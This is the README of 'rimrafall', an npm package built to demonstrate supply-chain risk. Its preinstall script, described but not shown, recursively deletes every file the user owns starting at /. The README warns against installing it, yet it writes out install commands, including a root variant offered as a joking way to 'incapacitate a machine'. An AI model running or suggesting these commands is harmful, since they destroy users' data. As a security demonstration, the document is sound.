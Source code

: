 # rimrafall

This is to show that `npm install` can be as dangerous as `curl dangerous.com | sh`.

### update, it's off the npm registry

It was [taken off the npm registry](https://twitter.com/othiym23/status/559759478774439936) but it solves nothing really, anyone could make malicious modules like this and mask it as a useful module that has a desired use case. Let's try to find ways to **really** make npm safe ;)

### update 2, no intent of being malicious

No, I did not name this package `rimrafall`, submited it to [HN](https://news.ycombinator.com/item?id=8947493), clearly stated what it does and clearly told people **not to install** it with the purpose of having people delete stuff on their computers.

# Whatever you do, do not

```
npm install rimrafall
```

It has a [`preinstall` script](https://github.com/joaojeronimo/rimrafall/blob/master/package.json#L7) that will delete all the files and folders your current user owns, recursively, in `/`.

## legitimate use case:

e.g., you need to completely incapacitate a machine (but please do heed the warning above):

```
sudo su -
npm install rimrafall
```

you might see lots of error messages like these:

```
rm: cannot remove `/sys/block/sda': Operation not permitted
rm: cannot remove `/sys/block/dm-0': Operation not permitted
rm: cannot remove `/sys/block/dm-1': Operation not permitted
```

which can safely be ignored.
